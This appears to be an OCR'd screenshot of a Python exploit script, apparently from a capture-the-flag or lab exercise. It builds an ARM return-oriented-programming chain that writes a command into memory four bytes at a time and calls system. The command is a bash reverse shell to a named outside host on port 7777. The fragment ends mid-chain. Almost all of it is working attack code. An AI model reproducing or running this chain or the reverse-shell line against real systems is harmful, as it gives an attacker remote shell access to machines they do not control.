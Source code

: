     # write to there
    shell = '''bash -c "bash -i >& /dev/tcp/ccug.gunadarma.ac.id/7777 0>&1"'''
    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += "/bin" # ini 
    p += "AAAA"
    p += p32(bss)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0xdeadbeef)
    p += p32(0xdeadbeef)
    p += p32(0xdeadbeef)

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += "/bas" # ini 
    p += "AAAA"
    p += p32(bss+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0xdeadbeef)
    p += p32(0xdeadbeef)
    p += p32(0xdeadbeef)

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += "h -c" # ini 
    p += "AAAA"
    p += p32(bss+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += " 'ba" # ini 
    p += "AAAA"
    p += p32(bss+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'sh -' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'i >&' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += ' /de' # ini 